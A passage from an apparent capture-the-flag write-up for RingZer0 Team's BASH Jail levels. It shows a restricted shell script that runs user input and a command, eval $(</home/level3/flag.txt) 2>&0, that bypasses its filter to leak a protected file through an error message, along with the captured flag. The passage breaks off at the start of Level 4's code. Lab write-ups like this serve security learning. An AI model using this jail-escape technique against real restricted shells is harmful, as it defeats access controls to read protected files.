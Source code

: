 ```.shell
do
        echo "Your input:"
        read input
        if check_space "$input" 
        then
                echo -e '\033[0;31mRestricted characters has been used\033[0m'
        else
                output=`$input` &>/dev/null
                echo "Command executed"
        fi
done 

-----------------------------
Your input:

```

The problem here is that **stderr** is being redirected to `/dev/null`:

```
WARNING: this prompt is launched using ./prompt.sh 2>/dev/null
```

The 2nd problem is that **stdout** *and* **stderr** are also redirected to `/dev/null`:

```
output=`$input` &>/dev/null
```

But fortunately we are allowed to use `eval` (which doesn't match against the regexp in `check_space`). If I'd execute:

```.shell
eval $(</home/level3/flag.txt)
```

this would cause an error since the shell cannot execute the command associated with the content in the flag file. But since **stderr** is redirected I had to redirect again to sth else, like **stdin** (0):

```.shell
Your input:
eval $(</home/level3/flag.txt) 2>&0
./real.sh: line 39: FLAG-s9wXyc9WKx1X6N9G68fCR0M78sx09D3j: command not found
Command executed
```


# Level 4

```.shell
level4@ringzer0team.com's password: 

RingZer0 Team Online CTF

BASH Jail Level 4:
Current user is uid=1003(level4) gid=1003(level4) groups=1003(level4)

Flag is located at /home/level4/flag.txt

Challenge bash code:
-----------------------------

WARNING: this prompt is launched using ./prompt.sh 2>/dev/null

# CHALLENGE

function check_space {
```
